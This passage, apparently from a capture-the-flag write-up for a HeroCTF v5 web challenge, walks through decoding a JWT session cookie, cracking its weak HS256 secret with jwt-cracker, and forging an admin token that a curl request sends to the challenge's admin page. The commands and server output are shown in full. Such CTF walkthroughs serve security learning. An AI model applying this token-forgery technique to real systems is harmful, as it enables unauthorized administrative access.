 To proceed, let's examine the content of the `token` cookie to see what type of token is being used.

At first glance, the token format resembles a session token, such as a JSON Web Token (JWT), as it consists of 3 parts encoded in base64 and separated by `.`.

To verify, let's use the website [jwt.io](https://jwt.io/) to decode the token.

![jwt.io](/images/heroctfv5/web/flask_jwt_initial.png)

The content of the JWT is:

```json
{
    "role": "guest"
}
```

The JWT header is:

```json
{
    "typ": "JWT",
    "alg": "HS256"
}
```

My first thought was to test the usual JWT attacks, such as changing the algorithm to `none`, but it didn't work.

So, I thought of another possible attack on JWTs and realized that the token could simply be signed with a weak key.

To test this hypothesis, I used the tool [jwt-cracker](https://github.com/lmammino/jwt-cracker), which you can install with `npm install --global jwt-cracker`.

```bash
C:\>jwt-cracker -t eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.AdxhLneoWOkeXGQFwWUbDzS3J2W6_Re-NbZLP_SRUww
SECRET FOUND: key
Time taken (sec): 0.888
Attempts: 100000
```

Indeed, the key used to sign the JWT is `key`.

With this secret, we can sign our own JWT with the role `admin` and inject it into the `token` cookie.

![JWT Admin](/images/heroctfv5/web/flask_jwt_admin.png)

```bash
curl 'http://dyn-06.heroctf.fr:13825/adminPage' -H 'Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiYWRtaW4ifQ.AVjKNp3JWkmYQdHzpEVpAU9pfGSiwJykT3lbWpQYhMY' -v
*   Trying 139.162.183.244:13825...
* Connected to dyn-06.heroctf.fr (139.162.183.244) port 13825 (#0)
> GET /adminPage HTTP/1.1
> Host: dyn-06.heroctf.fr:13825
> User-Agent: curl/7.88.1
> Accept: */*
> Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiYWRtaW4ifQ.AVjKNp3JWkmYQdHzpEVpAU9pfGSiwJykT3lbWpQYhMY
>
< HTTP/1.1 200 OK
< Server: Werkzeug/2.3.4 Python/3.10.6
< Date: Sun, 14 May 2023 01:17:30 GMT
< Content-Type: text/html; charset=utf-8
< Content-Length: 15
< Connection: close
<
```